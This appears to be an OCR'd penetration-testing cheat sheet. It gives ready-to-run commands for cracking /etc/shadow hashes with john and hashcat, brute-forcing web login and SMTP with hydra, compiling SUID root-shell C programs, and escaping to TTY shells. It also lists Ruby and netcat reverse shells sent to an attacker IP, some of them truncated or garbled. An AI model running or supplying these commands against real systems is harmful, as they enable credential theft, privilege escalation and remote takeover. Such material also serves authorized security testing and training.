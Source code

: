 Password Cracking

Use hash-identifier to determine the hash type.

https://hashkiller.co.uk

Paste the entire /etc/shadow file in a test file and run john with the text file after john.

john hashes.txt

    hashcat -m 500 -a 0 -o output.txt –remove hashes.txt /usr/share/wordlists/rockyou.txt

Bruteforcing:

    hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin
    hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt IPADDR PROTOCOL
    hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp –V // Hydra SMTP Brute force

Shells & Reverse Shells
SUID C Shells

    bin/bash:

int main(void){

setresuid(0, 0, 0);

system(“/bin/bash”);

}

    bin/sh:

int main(void){

setresuid(0, 0, 0);

system(“/bin/sh”);

}

    gcc -o suid suid.c

TTY Shell:

    python -c 'import pty;pty.spawn("/bin/bash")'
    echo os.system('/bin/bash')
    /bin/sh –i
    execute('/bin/sh') //  LUA
    !sh // NMAP
    :!bash // Vi

Spawn Ruby Shell

    exec "/bin/sh" // TTY
    ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d

Netcat

    nc -e /bin/sh ATTACKING-IP 80
    /bin/sh | nc ATTACKING-IP 80
    rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
